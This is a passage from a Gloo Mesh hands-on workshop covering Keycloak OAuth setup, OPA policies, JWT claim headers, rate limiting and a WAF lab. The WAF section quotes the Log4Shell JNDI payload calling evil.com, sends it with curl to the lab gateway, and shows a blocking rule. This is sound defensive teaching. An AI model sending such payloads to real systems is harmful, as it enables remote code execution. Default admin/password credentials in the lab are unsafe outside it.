Let's set the environment variables we need:

```bash
export ENDPOINT_KEYCLOAK=$(kubectl --context ${MGMT} -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].*}'):8080
export HOST_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK} | cut -d: -f1)
export PORT_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK} | cut -d: -f2)
export KEYCLOAK_URL=http://${ENDPOINT_KEYCLOAK}
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_KEYCLOAK + "' can be resolved in DNS", () => {
    it(process.env.HOST_KEYCLOAK + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_KEYCLOAK, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Now, we need to get a token:

```bash
export KEYCLOAK_TOKEN=$(curl -d "client_id=admin-cli" -d "username=admin" -d "password=admin" -d "grant_type=password" "$KEYCLOAK_URL/realms/master/protocol/openid-connect/token" | jq -r .access_token)
```

After that, we configure Keycloak:

```bash
# Create initial token to register the client
read -r client token <<<$(curl -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"expiration": 0, "count": 1}' $KEYCLOAK_URL/admin/realms/master/clients-initial-access | jq -r '[.id, .token] | @tsv')
export KEYCLOAK_CLIENT=${client}

# Register the client
read -r id secret <<<$(curl -X POST -d "{ \"clientId\": \"${KEYCLOAK_CLIENT}\" }" -H "Content-Type:application/json" -H "Authorization: bearer ${token}" ${KEYCLOAK_URL}/realms/master/clients-registrations/default| jq -r '[.id, .secret] | @tsv')
export KEYCLOAK_SECRET=${secret}

# Add allowed redirect URIs
curl -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X PUT -H "Content-Type: application/json" -d '{"serviceAccountsEnabled": true, "directAccessGrantsEnabled": true, "authorizationServicesEnabled": true, "redirectUris": ["'https://${ENDPOINT_HTTPS_GW_CLUSTER1}'/callback","'https://${ENDPOINT_HTTPS_GW_CLUSTER1}'/portal-server/v1/login","'https://${ENDPOINT_HTTPS_GW_CLUSTER1}'/get"]}' $KEYCLOAK_URL/admin/realms/master/clients/${id}

# Add the group attribute in the JWT token returned by Keycloak
curl -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"name": "group", "protocol": "openid-connect", "protocolMapper": "oidc-usermodel-attribute-mapper", "config": {"claim.name": "group", "jsonType.label": "String", "user.attribute": "group", "id.token.claim": "true", "access.token.claim": "true"}}' $KEYCLOAK_URL/admin/realms/master/clients/${id}/protocol-mappers/models

# Create first user
curl -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"username": "user1", "email": "user1@example.com", "enabled": true, "attributes": {"group": "users"}, "credentials": [{"type": "password", "value": "password", "temporary": false}]}' $KEYCLOAK_URL/admin/realms/master/users

# Create second user
curl -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"username": "user2", "email": "user2@solo.io", "enabled": true, "attributes": {"group": "users"}, "credentials": [{"type": "password", "value": "password", "temporary": false}]}' $KEYCLOAK_URL/admin/realms/master/users
```

> **Note:** If you get a *Not Authorized* error, please, re-run this command and continue from the command started to fail:

```
KEYCLOAK_TOKEN=$(curl -d "client_id=admin-cli" -d "username=admin" -d "password=admin" -d "grant_type=password" "$KEYCLOAK_URL/realms/master/protocol/openid-connect/token" | jq -r .access_token)
```


## Lab 15 - Securing the access with OAuth <a name="lab-15---securing-the-access-with-oauth-"></a>


In this step, we're going to secure the access to the `httpbin` service using OAuth.

First, we need to create a Kubernetes Secret that contains the OIDC secret:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: oauth
  namespace: httpbin
type: extauth.solo.io/oauth
data:
  client-secret: $(echo -n ${KEYCLOAK_SECRET} | base64)
EOF
```

Then, you need to create an `ExtAuthPolicy`, which is a CRD that contains authentication information: 

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: httpbin
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}"
            callbackPath: /callback
            clientId: ${KEYCLOAK_CLIENT}
            clientSecretRef:
              name: oauth
              namespace: httpbin
            issuerUrl: "${KEYCLOAK_URL}/realms/master/"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: keycloak-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
EOF
```

After that, you need to create an `ExtAuthServer`, which is a CRD that define which extauth server to use: 

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: ExtAuthServer
metadata:
  name: ext-auth-server
  namespace: httpbin
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: ext-auth-service
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```

Finally, you need to update the `RouteTable` to use this `ExtAuthPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      labels:
        oauth: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          exact: /logout
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Authentication is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it("The httpbin page isn't accessible without authenticating", () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', retCode: 302 }));
  it("The httpbin page is accessible after authenticating", () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 200 }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/httpbin/gateway-extauth-oauth/tests/authentication.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

If you refresh the web browser, you will be redirected to the authentication page.

If you use the username `user1` and the password `password` you should be redirected back to the `httpbin` application.

You can also perform authorization using OPA.

First, you need to create a `ConfigMap` with the policy written in rego:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: allow-solo-email-users
  namespace: httpbin
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        endswith(payload["email"], "@solo.io")
    }
EOF
```

Then, you need to update the `ExtAuthPolicy` object to add the authorization step:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: httpbin
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}"
            callbackPath: /callback
            clientId: ${KEYCLOAK_CLIENT}
            clientSecretRef:
              name: oauth
              namespace: httpbin
            issuerUrl: "${KEYCLOAK_URL}/realms/master/"
            logoutPath: /logout
            afterLogoutUrl: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: keycloak-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
      - opaAuth:
          modules:
          - name: allow-solo-email-users
            namespace: httpbin
          query: "data.test.allow == true"
EOF
```

Refresh the web page. `user1` shouldn't be allowed to access it anymore since the user's email ends with `@example.com`.
If you open the browser in incognito and login using the username `user2` and the password `password`, you will now be able to access it since the user's email ends with `@solo.io`.

This diagram shows the flow of the request (with the Istio ingress gateway leveraging the `extauth` Pod to authorize the request):


## Lab 16 - Use the JWT filter to create headers from claims <a name="lab-16---use-the-jwt-filter-to-create-headers-from-claims-"></a>


In this step, we're going to validate the JWT token and to create a new header from the `email` claim.

Keycloak is running outside of the Service Mesh, so we need to define an `ExternalService` and its associated `ExternalEndpoint`:

Let's start by the latter:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalEndpoint
metadata:
  name: keycloak
  namespace: httpbin
  labels:
    host: keycloak
spec:
  address: ${HOST_KEYCLOAK}
  ports:
  - name: http
    number: ${PORT_KEYCLOAK}
EOF
```

Then we can create the former:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: keycloak
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
  - keycloak
  ports:
  - name: http
    number: ${PORT_KEYCLOAK}
    protocol: HTTP
  selector:
    host: keycloak
EOF
```

Now, we can create a `JWTPolicy` to extract the claim.

Create the policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: JWTPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    phase:
      postAuthz:
        priority: 1
    providers:
      keycloak:
        issuer: ${KEYCLOAK_URL}/realms/master
        tokenSource:
          headers:
          - name: jwt
        remote:
          url: ${KEYCLOAK_URL}/realms/master/protocol/openid-connect/certs
          destinationRef:
            kind: EXTERNAL_SERVICE
            ref:
              name: keycloak
            port:
              number: ${PORT_KEYCLOAK}
        claimsToHeaders:
        - claim: email
          header: X-Email
EOF
```

You can see that it will be applied to our existing route and also that we want to execute it after performing the external authentication (to have access to the JWT token).

If you refresh the web page, you should see a new `X-Email` header added to the request with the value `user2@solo.io`

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Claim to header is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it('The new header has been added', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], body: '"X-Email": "user2@solo.io"' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/httpbin/gateway-jwt/tests/header-added.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 17 - Use the transformation filter to manipulate headers <a name="lab-17---use-the-transformation-filter-to-manipulate-headers-"></a>


In this step, we're going to use a regular expression to extract a part of an existing header and to create a new one:

Let's create a `TransformationPolicy` to extract the claim.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: TransformationPolicy
metadata:
  name: modify-header
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    phase:
      postAuthz:
        priority: 2
    request:
      injaTemplate:
        extractors:
          organization:
            header: 'X-Email'
            regex: '.*@(.*)$'
            subgroup: 1
        headers:
          x-organization:
            text: "{{ organization }}"
EOF
```

You can see that it will be applied to our existing route and also that we want to execute it after performing the external authentication (to have access to the JWT token).

If you refresh the web page, you should see a new `X-Organization` header added to the request with the value `solo.io`

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Tranformation is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it('The new header has been added', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], body: '"X-Organization": "solo.io"' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/httpbin/gateway-transformation/tests/header-added.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 18 - Apply rate limiting to the Gateway <a name="lab-18---apply-rate-limiting-to-the-gateway-"></a>


In this step, we're going to apply rate limiting to the Gateway to only allow 3 requests per minute for the users of the `solo.io` organization.

First, we need to create a `RateLimitClientConfig` object to define the descriptors:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitClientConfig
metadata:
  name: httpbin
  namespace: httpbin
spec:
  raw:
    rateLimits:
    - setActions:
      - requestHeaders:
          descriptorKey: organization
          headerName: X-Organization
EOF
```

Then, we need to create a `RateLimitServerConfig` object to define the limits based on the descriptors:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: httpbin
  namespace: httpbin
spec:
  destinationServers:
  - ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: organization
            value: solo.io
        rateLimit:
          requestsPerUnit: 3
          unit: MINUTE
EOF
```

After that, we need to create a `RateLimitPolicy` object to define the descriptors:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        ratelimited: "true"
  config:
    serverSettings:
      name: rate-limit-server
      namespace: httpbin
      cluster: cluster1
    ratelimitClientConfig:
      name: httpbin
      namespace: httpbin
      cluster: cluster1
    ratelimitServerConfig:
      name: httpbin
      namespace: httpbin
      cluster: cluster1
    phase:
      postAuthz:
        priority: 3
EOF
```

We also need to create a `RateLimitServerSettings`, which is a CRD that define which extauth server to use: 

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerSettings
metadata:
  name: rate-limit-server
  namespace: httpbin
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```

Finally, you need to update the `RouteTable` to use this `RateLimitPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      labels:
        oauth: "true"
        ratelimited: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

Refresh the web page multiple times.

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Rate limiting is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it('The httpbin page should be rate limited', () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 429 }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/httpbin/gateway-ratelimiting/tests/rate-limited.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You should get a `200` response code the first 3 time and a `429` response code after.

This diagram shows the flow of the request (with the Istio ingress gateway leveraging the `rate limiter` Pod to determine if the request should be allowed):


Let's apply the original `RouteTable` yaml:
```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

And also delete the different objects we've created:
```bash
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitpolicy httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitclientconfig httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitserverconfig httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitserversettings rate-limit-server
```


## Lab 19 - Use the Web Application Firewall filter <a name="lab-19---use-the-web-application-firewall-filter-"></a>


A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Mesh includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections. 

An example of how using Gloo Mesh we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That’s what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

Create the WAF policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \\\${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

In this example, we're going to update the main `RouteTable` to enforce this policy for all the applications exposed through the gateway (in any workspace).

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      labels:
        waf: "true"
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("WAF is working properly", function() {
  it('The request has been blocked', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'x-my-header', value: '${jndi:ldap://evil.com/x}'}], body: 'Log4Shell malicious payload' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/httpbin/gateway-waf/tests/waf.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get" -i
```

The request should be rejected:

```,nocopy
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```

Let's apply the original `RouteTable` yaml:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
EOF
```

And also delete the waf policy we've created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete wafpolicies.security.policy.gloo.solo.io log4shell
```


